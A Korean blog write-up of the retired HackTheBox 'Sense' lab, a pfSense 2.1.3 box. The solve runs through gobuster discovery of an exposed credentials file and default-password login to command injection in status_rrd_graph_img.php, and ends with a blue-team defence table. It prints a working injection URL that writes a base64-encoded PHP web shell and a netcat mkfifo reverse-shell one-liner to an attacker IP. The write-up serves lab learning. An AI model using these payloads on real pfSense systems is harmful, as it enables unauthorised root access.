






+++
title = '[HTB] - Sense'
date = 2026-05-12T12:00:00+09:00
draft = false

categories = ["HTB", "pentesting"]
tags = ["HTB", "write-up", "pfSense", "Command Injection", "CVE", "OpenBSD", "gobuster"]
description = "HackTheBox Sense 풀이 — gobuster 확장자 enum으로 노출된 system-users.txt에서 자격증명을 찾고, pfSense 2.1.3의 status_rrd_graph_img.php Command Injection 취약점으로 별도 권한 상승 없이 root 쉘을 획득하는 과정을 분석한다."
+++

# HTB - Sense (Retired Machine)

## Overview

| 항목 | 내용 |
|------|------|
| OS | OpenBSD (pfSense) |
| 난이도 | Easy |
| 포트 | 80 (HTTP), 443 (HTTPS) |
| 공격 체인 | 웹 정찰 → gobuster `-x txt` 확장자 enum → system-users.txt 발견 → pfSense 기본 패스워드로 로그인 → searchsploit으로 버전 매칭 → status_rrd_graph_img.php Command Injection → 웹쉘 → 리버스 쉘 (root) |

---

## 배경 지식

### pfSense란

pfSense는 FreeBSD 기반의 오픈소스 방화벽/라우터 배포판이다. 기업 환경에서도 많이 쓰이는 관리형 네트워크 장비로, 웹 대시보드로 모든 설정을 제어할 수 있다.

이번 머신에서는 pfSense가 웹 애플리케이션 서버이자 공격 대상이다. 버전 정보가 대시보드에 그대로 노출되고, 알려진 CVE가 존재하기 때문에 **버전 식별 → CVE 매핑** 흐름이 핵심이 된다.

### status_rrd_graph_img.php Command Injection 원리

pfSense의 `status_rrd_graph_img.php`는 시스템 자원(메모리, 프로세스, 큐 등)을 그래프 이미지(PNG)로 렌더링해서 반환하는 스크립트다.

```
GET /status_rrd_graph_img.php?database=queues
                                        ↑
                              이 파라미터가 공격 지점
```

문제는 이 그래프가 **root 권한으로 실행되는 `rrdtool` 프로세스**를 통해 렌더링된다는 점이다. 시스템 자원 정보를 읽으려면 OS 수준의 접근이 필요하고, pfSense는 이 처리를 root 권한 프로세스에 위임한다.

취약한 코드는 아래와 같다.



```php
$curdatabase = $_GET['database'];
$curif = explode("-", $curdatabase);
$curif = $curif[0];
// ...
exec("rrdtool graph ... $curif ...")  // ← $curif가 그대로 들어감
```

`explode("-", ...)[0]`으로 첫 처리는 하지만, 세미콜론(`;`)이나 파이프(`|`) 같은 쉘 메타문자에 대한 필터링이 전혀 없다. `database=queues;명령어` 형태로 임의 OS 명령을 실행할 수 있다. 그리고 그 실행 컨텍스트가 root이기 때문에 별도의 권한 상승 없이 바로 root shell을 얻는다.

### gobuster 확장자 지정 enum (`-x`)

일반적인 디렉터리 enum은 경로 존재 여부만 확인한다. 하지만 서버에 놓인 `.txt`, `.config` 같은 파일에 자격증명이 존재할 수 있다. gobuster의 `-x` 옵션으로 특정 확장자를 가진 파일을 탐색할 수 있다.

```bash
gobuster dir -u https://TARGET -w /path/to/wordlist -x txt,php,html
```

이번 머신에서 `system-users.txt`가 바로 이 방법으로 발견됐다. 디렉터리 enum에서 확장자를 지정하지 않으면 이런 파일은 놓치기 쉽다.

---

## 공격 체인 요약

```
nmap → 80, 443 확인 → pfSense 로그인 화면
  → gobuster -x txt 확장자 enum
    → /system-users.txt 발견 → 유저명 획득
      → pfSense 기본 패스워드(pfsense)로 로그인
        → 대시보드에서 버전 2.1.3 확인
          → searchsploit으로 CVE 조회
            → pfSense < 2.1.4 status_rrd_graph_img.php Command Injection
              → 웹쉘 업로드 → 리버스 쉘 → root (별도 privesc 불필요)
```

---

## 정찰 (Enumeration)

### 포트 스캔

```bash
sudo nmap 10.129.33.251 -Pn -sCV -oA scans/initial
```

```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

HTTP와 HTTPS만 열려있다. `whatweb`으로 서비스 핑거프린팅을 해본다.

```bash
whatweb 10.129.33.251
```

```
http://10.129.33.251  [301 Moved Permanently] lighttpd/1.4.35
https://10.129.33.251 [200 OK] lighttpd/1.4.35, PHP, PHPSESSID, Title[Login]
```

lighttpd/1.4.35 위에서 PHP 기반 로그인 페이지가 돌고 있다. 브라우저로 접속하면 pfSense 로고와 로그인 폼이 나타난다.

### 웹 디렉터리 및 파일 enum

```bash
gobuster dir -u https://10.129.33.251 \
             -w /usr/share/wordlists/dirb/common.txt \
             -k \
             -x txt,php,html
```

```
/favicon.ico          (Status: 200)
/index.html           (Status: 200)
/index.php            (Status: 200)
/installer            (Status: 200)
/tree                 (Status: 200)
/xmlrpc.php           (Status: 200)
/system-users.txt     (Status: 200)  ← 핵심
```

`/system-users.txt`가 노출되어 있다. 내용을 확인한다.



유저명 `Rohit`과 패스워드 힌트 "company defaults"가 담겨 있다. pfSense의 기본 패스워드는 `pfsense`인데, "company defaults"가 이를 가리키는 것으로 보인다.

```
username: rohit
password: pfsense
```

로그인에 성공한다.

---

## 취약점 분석 및 공격

### 버전 식별 → CVE 매핑

로그인 후 대시보드에서 pfSense 버전 정보를 확인할 수 있다.



버전: **2.1.3**

```bash
searchsploit pfsense 2.1
```

여러 CVE가 나오는데, 각 exploit의 조건을 읽어서 현재 상황과 매칭한다.

| Exploit | 조건 |
|---------|------|
| pfSense < 2.1.4 - status_rrd_graph_img.php Command Injection | 로그인만 있으면 됨, root shell 직접 획득 |
| pfSense 2.x - Remote Code Execution | Admin 권한 필요 |

현재 `rohit` 계정(일반 권한)으로 로그인되어 있고, 버전이 2.1.3이므로 `pfSense < 2.1.4` 조건에 해당한다. Command Injection exploit을 선택한다.

### 취약점 확인

`/status_rrd_graph_img.php?database=queues`에 GET 요청을 보내면 PNG 이미지로 그래프 데이터를 반환한다.





`database` 파라미터에 세미콜론으로 명령을 이어 붙이면 Command Injection이 가능하다.

### 웹쉘 업로드

PHP 웹쉘을 웹 루트에 쓰는 payload를 만든다. pfSense 웹 루트는 `/usr/local/www/`다.



```
/status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"<?php+eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg'));?>">shell.php
```

base64 디코딩 결과: `echo system($_GET['cmd']);`

업로드 후 `/shell.php?cmd=id`로 RCE를 확인한다.

```
uid=0(root) gid=0(wheel) groups=0(wheel)
```

root 권한으로 실행되고 있다. 권한 상승이 별도로 필요 없다.

---

## Foothold → root

리버스 쉘을 올린다. OpenBSD 환경이므로 named pipe 기반 netcat 페이로드를 사용한다.

```bash
# 공격자 머신에서 리스너 준비
nc -lvnp 4444
```

웹쉘을 통해 실행:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.188 4444 >/tmp/f
```

```
connect to [10.10.14.188] from (UNKNOWN) [10.129.33.251] ...
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# hostname
sense
```

root shell을 바로 획득했다.

---

## Flags

```bash
cat /home/rohit/user.txt
cat /root/root.txt
```

---

## 배운 것들

### 이번 머신의 핵심 깨달음

2.5시간을 shellshock, xmlrpc, 브루트포스, force protection bypass를 시도하다가 막혔다. 막힌 이유는 하나였다 — **`-x txt` 없이 gobuster를 돌렸다.**

`system-users.txt`는 `.txt` 확장자 지정 없이는 절대 발견할 수 없다. 파일명 기반 enum과 확장자 기반 enum은 완전히 별개다. 이후 모든 웹 머신에서 초기 enum 체크리스트에 `-x txt,php,html,config`가 들어가야 한다.

두 번째로 배운 것은 CVE와 현재 버전을 매핑하는 방법이다. searchsploit 결과를 보면 exploit이 여러 개 나오는데, 각 exploit의 **전제 조건(버전 범위, 필요 권한)**을 하나씩 대조하면 현재 상황에 맞는 것을 추려낼 수 있다. 단순히 나열된 결과를 보는 게 아니라 트리아지 관점으로 읽어야 한다.

### 막혔던 지점 분석

| 막힌 지점 | 원인 | 교훈 |
|-----------|------|------|
| 자격증명 획득 (2시간) | gobuster에서 `-x txt` 미사용 | 웹 enum 시 확장자 지정 필수화 |
| shellshock 40분 낭비 | CGI 스크립트 발견 → 즉시 가설 고정 | 가설이 틀렸음을 빨리 증명하는 훈련 필요 |
| CVE 선택 | 여러 exploit 중 어떤 게 유효한지 판단 못함 | 각 exploit 조건(버전, 권한) 체크 후 매핑 |

가설이 유효하지 않다는 걸 스스로 증명하는 능력 — 이게 지금 단계에서 가장 약한 부분이다. "이 가설이 틀렸음을 확인하는 데 최대 X분"이라는 타임박스를 스스로 걸어야 한다.

### 공격 체인 각 요소 정리

| 요소 | 역할 |
|------|------|
| gobuster `-x txt` | 숨겨진 자격증명 파일 발견 |
| pfSense 기본 패스워드 | "company defaults" → `pfsense` |
| 대시보드 버전 노출 | 버전 2.1.3 확인 → CVE 범위 특정 |
| searchsploit 트리아지 | 여러 CVE 중 조건 매칭으로 선택 |
| status_rrd_graph_img.php | Command Injection → root 직접 실행 |
| mkfifo 리버스 쉘 | OpenBSD 환경에서 안정적인 쉘 획득 |

### 다음에 비슷한 상황을 만나면

- 관리자 웹 UI가 보이면 → 버전 정보 확인 → searchsploit / exploit-db 즉시 조회
- 웹 enum 시 `-x txt,php,html,config` 항상 포함
- searchsploit 결과 여러 개 → 버전 범위 + 필요 권한 두 가지로 필터링
- Command Injection 발견 시 실행 권한 컨텍스트 먼저 확인 → root면 privesc 불필요

### 방어 관점 (Blue Team)

| 공격 벡터 | 방어 방법 |
|---------|---------|
| 자격증명 파일 웹 루트 노출 | 민감 파일 웹 루트 외부 보관, 접근 제어 설정 |
| 기본 패스워드 사용 | 초기 설치 후 즉시 변경 정책 적용 |
| Command Injection (입력 미검증) | 외부 입력의 쉘 메타문자 필터링, `escapeshellarg()` 적용 |
| rrdtool root 권한 실행 | 최소 권한 원칙으로 프로세스 권한 분리 |
| 버전 정보 대시보드 노출 | 인증 전 버전 노출 최소화, 관리 인터페이스 IP 제한 |

---

## 관련 글

- [HTB - Sau](/posts/sau/) — 버전 식별 후 공개 CVE로 Command Injection을 트리거하는 동일 패턴. SSRF로 내부 서비스에 접근하는 단계가 추가된다.
- [HTB - Oopsie](/posts/oopsie/) — SUID 바이너리의 Command Injection으로 권한을 상승시키는 사례.
- [HTB - Vaccine](/posts/vaccine/) — 노출된 버전 정보를 단서로 공개 익스플로잇을 연결하는 흐름.
